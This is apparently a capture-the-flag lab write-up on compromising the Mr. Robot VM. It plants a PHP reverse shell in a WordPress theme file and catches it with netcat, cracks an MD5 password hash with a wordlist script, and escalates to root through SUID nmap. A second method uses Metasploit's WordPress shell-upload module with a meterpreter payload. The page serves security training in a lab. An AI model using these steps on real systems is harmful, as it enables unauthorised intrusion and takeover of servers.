


# **Step 6: Reverse Shell**
!!! note ""

## Reverse Shell via WordPress

### Method 1: PHP Reverse Shell

Uploading a Reverse Shell via WordPress

1. Log in to WordPress Admin:

    - Go to http://192.168.1.226/wp-admin and log in using the credentials you have.

2. Edit the Theme:

    - Navigate to Appearance > Theme Editor.
    - Select the 404.php file or another template file that is likely to be executed.


3. Insert the Reverse Shell Code:

    - Insert a PHP reverse shell code into the 404.php file
    - `https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php`


4. Start a Netcat Listener:

    - On the Kali machine, start a netcat listener:`nc -lvnp 4444`

```python linenums="1" hl_lines="2"
┌──(hcoco1㉿kali)-[~]
└─$ nc -lvnp 4444                     
listening on [any] 4444 ...


```
5. Trigger the Reverse Shell:

    - Visit the modified 404.php file in your browser to trigger the reverse shell.

    - `http://192.168.1.226/wp-content/themes/[Twenty-Fifteen]/404.php`

```python linenums="1" hl_lines="9"
┌──(hcoco1㉿kali)-[~]
└─$ nc -lvnp 4444                     
listening on [any] 4444 ...
connect to [192.168.1.223] from (UNKNOWN) [192.168.1.226] 59344
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 18:54:06 up  1:38,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ 

```
6. Upgrade the Shell

    - Spawn a TTY Shell Using Python: `python -c 'import pty; pty.spawn("/bin/bash")'`

7. Exploring the System

    - Navigate the File System

```python linenums="1" hl_lines="24"
┌──(hcoco1㉿kali)-[~]
└─$ nc -lvnp 4444                     
listening on [any] 4444 ...
connect to [192.168.1.223] from (UNKNOWN) [192.168.1.226] 59344
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 18:54:06 up  1:38,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ $ python -c 'import pty; pty.spawn("/bin/bash")'
/bin/sh: 1: $: not found
$ $ /bin/sh -i
/bin/sh: 2: $: not found
$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$ cd /home
cd /home
daemon@linux:/home$ ls -a
ls -a
.  ..  robot
daemon@linux:/home$ cd robot
cd robot
daemon@linux:/home/robot$ ls -a
ls -a
.  ..  key-2-of-3.txt  password.raw-md5
daemon@linux:/home/robot$ 
```
8. View the Content of key-2-of-3.txt

```bash linenums="1" hl_lines="2"
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ sudo cat key-2-of-3.txt
sudo cat key-2-of-3.txt
[sudo] password for daemon: ER28-0652

Sorry, try again.
[sudo] password for daemon: 

Sorry, try again.
[sudo] password for daemon: 

Sorry, try again.
sudo: 3 incorrect password attempts
daemon@linux:/home/robot$ 

```
9. Switch Users

```bash linenums="1" hl_lines="2"
daemon@linux:/home/robot$ su robot
su robot
Password: ER28-0652

su: Authentication failure
daemon@linux:/home/robot$

```
>ER28-0652 did not work. `password.raw-md5` must be hacked.

10. Crack `password.raw-md5`

```bash linenums="1" hl_lines="3"
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```
11. Creating a Python script to crack the hash (on the kali VM)

```bash linenums="1" hl_lines="3"
import hashlib

hash_to_crack = "c3fcd3d76192e4007dfb496cca67e13b"
wordlist_path = "/usr/share/wordlists/rockyou.txt"

with open(wordlist_path, "r", encoding="utf-8", errors="ignore") as file:
    for word in file:
        word = word.strip()
        if hashlib.md5(word.encode()).hexdigest() == hash_to_crack:
            print(f"Password found: {word}")
            break
    else:
        print("Password not found in the wordlist.")


```
12. Runing the python script

```bash linenums="1" hl_lines="9"
┌──(hcoco1㉿kali)-[~]
└─$ ls -l /usr/share/wordlists/rockyou.txt

-rw-r--r-- 1 root root 139921507 May 12  2023 /usr/share/wordlists/rockyou.txt
                                                                                                                                                                                                                           
┌──(hcoco1㉿kali)-[~]
└─$ python3 md5_crack.py                            

Password found: abcdefghijklmnopqrstuvwxyz

```
13. Switch (non root) Users and inspecting `key-2-of-3.txt`

```bash linenums="1" hl_lines="9"

daemon@linux:/tmp/john-1.9.0-jumbo-1/run$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:/tmp/john-1.9.0-jumbo-1/run$ cd /home/robot
cat key-2-of-3.txt
cd /home/robot
robot@linux:~$ cat key-2-of-3.txt
822c73956184f694993bede3eb39f959 # Flag 2 of 3 ✔️
```
14. Finding the last flag `key-3-of-3.txt`

```bash linenums="1" hl_lines="9"
robot@linux:~$ sudo find / -name "key-3-of-3.txt" 2>/dev/null
sudo find / -name "key-3-of-3.txt" 2>/dev/null
[sudo] password for robot: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ sudo find / -name "key-3-of-3.txt" 2>/dev/null
sudo find / -name "key-3-of-3.txt" 2>/dev/null
[sudo] password for robot: 

[sudo] password for robot: 

[sudo] password for robot: 

robot@linux:~$ find / -name "key-3-of-3.txt" 2>/dev/null
find / -name "key-3-of-3.txt" 2>/dev/null

robot@linux:~$ 
```
>Since we couldn't directly access the third key (key-3-of-3.txt) with the permissions of the robot user, we needed to find a way to escalate your privileges to gain root access.

15.Identifying Privilege Escalation Opportunities

```bash linenums="1" hl_lines="14"
robot@linux:~$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```
16. Identifying nmap with SUID Bit `/usr/local/bin/nmap`.

17.Exploiting nmap for Privilege Escalation
```bash linenums="1" hl_lines="7"
robot@linux:~$ /usr/local/bin/nmap --interactive
/usr/local/bin/nmap --interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
```
18. Accessing the Third Key

```bash linenums="1" hl_lines="7"
# find / -name "key-3-of-3.txt" 2>/dev/null
find / -name "key-3-of-3.txt" 2>/dev/null
/root/key-3-of-3.txt
# cat /root/key-3-of-3.txt
cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4 # Flag 3 of 3 ✔️
#
```
>By finding a file with elevated privileges (in this case, nmap with the SUID bit set), we were able to exploit it to gain root access and ultimately access the key-3-of-3.txt file. This process of privilege escalation is a common technique in ethical hacking and penetration testing to demonstrate how a lower-privileged user can potentially gain unauthorized access to restricted information.


### Method 2: Use Metasploit

- Using Metasploit to Gain a Reverse Shell


1. Start Metasploit Framework:

Open your terminal and start Metasploit: `msfconsole`

2. Search for WordPress Exploits: `search wordpress`

3. Select an Exploit Module: `use exploit/unix/webapp/wp_admin_shell_upload`

4. Set Required Options:

Set the target URL and login credentials for the WordPress admin:
```bash
set RHOSTS 192.168.1.226
set USERNAME elliot
set PASSWORD ER28-0652
set TARGETURI /
```
5. Set the Payload:

```bash
set payload php/meterpreter/reverse_tcp
set LHOST 192.168.1.223
set LPORT 4444
```

6. Run the Exploit: `exploit`

```bash
View the full module info with the info, or info -d command.

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /
TARGETURI => /
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME elliot
USERNAME => elliot
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 192.168.1.223:4444 
[*] Skipping WordPress check...
[*] Authenticating with WordPress using elliot:ER28-0652...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Acquired a plugin upload nonce: 561b3a4c73
[*] Uploaded plugin lCXSKnpNHP
[*] Executing the payload at /wp-content/plugins/lCXSKnpNHP/DXgKrelAug.php...
[*] Sending stage (39927 bytes) to 192.168.1.226
[*] Meterpreter session 3 opened (192.168.1.223:4444 -> 192.168.1.226:59378) at 2024-06-25 18:56:54 -0400
[!] This exploit may require manual cleanup of 'DXgKrelAug.php' on the target
[!] This exploit may require manual cleanup of 'lCXSKnpNHP.php' on the target
[!] This exploit may require manual cleanup of '../lCXSKnpNHP' on the target

meterpreter > 
```
7. Post-Exploitation. Get a shell: `meterpreter > shell`
8. Upgrade to a Full Shell: `python -c 'import pty; pty.spawn("/bin/bash")'`
9. Explore the File System
```bash
cd /home/robot
ls -a

```
10. Read the Content of Key Files:
```bash
cat key-2-of-3.txt
```
10. Identify Privilege Escalation Opportunities: `find / -perm -u=s -type f 2>/dev/null`
11. Exploiting Nmap Interactive Mode: `/usr/local/bin/nmap`

```bash
/usr/local/bin/nmap --interactive
!sh
```
12. Find and Read the Final Key
```bash
find / -name "key-3-of-3.txt" 2>/dev/null
cat /root/key-3-of-3.txt
```
13. Cleaning Up
```bash
rm /wp-content/plugins/lCXSKnpNHP/DXgKrelAug.php
rm -rf /wp-content/plugins/lCXSKnpNHP
```
```bash
meterpreter > shell
Process 6921 created.
Channel 0 created.
python -c 'import pty; pty.spawn("/bin/bash")'
<ps/wordpress/htdocs/wp-content/plugins/lCXSKnpNHP$ cd /home/robot
cd /home/robot
daemon@linux:/home/robot$ ls -a
ls -a
.  ..  key-2-of-3.txt  password.raw-md5
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
daemon@linux:/home/robot$ /usr/local/bin/nmap --interactive
/usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
cat /home/robot/key-2-of-3.txt
822c73956184f694993bede3eb39f959 # Flag 2 of 3 ✔️
# find / -name "key-3-of-3.txt" 2>/dev/null
find / -name "key-3-of-3.txt" 2>/dev/null
/root/key-3-of-3.txt
# cat /root/key-3-of-3.txt
cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4 # Flag 3 of 3 ✔️
# 
```


> I was be able to fully exploit the Mr. Robot VM, find all the hidden keys, and perform necessary post-exploitation tasks.


<div id="disqus_thread"></div>
<script>
    /**
    *  RECOMMENDED CONFIGURATION VARIABLES: EDIT AND UNCOMMENT THE SECTION BELOW TO INSERT DYNAMIC VALUES FROM YOUR PLATFORM OR CMS.
    *  LEARN WHY DEFINING THESE VARIABLES IS IMPORTANT: https://disqus.com/admin/universalcode/#configuration-variables    */
    /*
    var disqus_config = function () {
    this.page.url = PAGE_URL;  // Replace PAGE_URL with your page's canonical URL variable
    this.page.identifier = PAGE_IDENTIFIER; // Replace PAGE_IDENTIFIER with your page's unique identifier variable
    };
    */
    (function() { // DON'T EDIT BELOW THIS LINE
    var d = document, s = d.createElement('script');
    s.src = 'https://hcoco1-1.disqus.com/embed.js';
    s.setAttribute('data-timestamp', +new Date());
    (d.head || d.body).appendChild(s);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

!!! note ""

<div class="button-container" markdown="1">
<a href="/Career-Simulation-4/challenge_5/" class="md-button md-button--primary">Previous: Step 5</a>
<a href="/Career-Simulation-4/" class="md-button md-button--secondary">Home 🏠</a>
<a href="/Career-Simulation-4/report/" class="md-button md-button--primary">Next: Report</a>
</div>